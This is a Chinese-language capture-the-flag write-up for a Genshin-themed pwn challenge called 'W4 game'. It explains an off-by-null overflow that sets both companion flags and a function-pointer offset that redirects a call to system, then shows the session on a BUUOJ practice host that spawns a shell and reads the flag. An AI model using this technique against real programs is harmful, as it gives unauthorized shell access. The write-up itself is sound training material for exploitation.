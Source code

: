 # W4 game

## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

观察程序，发现 ~~原神~~ 函数末尾运行了`(*(puts + (-(long)cnt - (long)offset)))(bytes);`  
那么只要控制cnt和offset，就可以运行system；控制bytes可以打开shell

cnt在完成委托每次+0x10000，而offset通过输入%hd获得；  
bytes在对肯德基爷爷的话中可以输入；  
现在唯一的问题是：怎样既选择派蒙又选择三月七以满足`if ((flag_paimon != 1) || (flag_march7 != 1)) break;`
的条件？

发现myread函数存在**off-by-null**溢出，动调发现溢出的刚好是选择的伙伴变量，
那么只要先选三月七，然后溢出修改伙伴为派蒙即可

虽然题目中完成4次委托给了system地址，但是libc给了...直接在libc中找偏移，
得出`system - puts`=0x38592

## EXPLOIT

```
> ncat node4.buuoj.cn 29415
请选择你的伙伴1
我永远喜欢三月七!
现在你可以开始探险了1.扣1送原石2.扣2送kfc联名套餐2
你有什么想对肯德基爷爷说的吗?
/bin/sh
1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐3
you are good mihoyo player!
8592
cat flag
flag{removed}
```

Done.
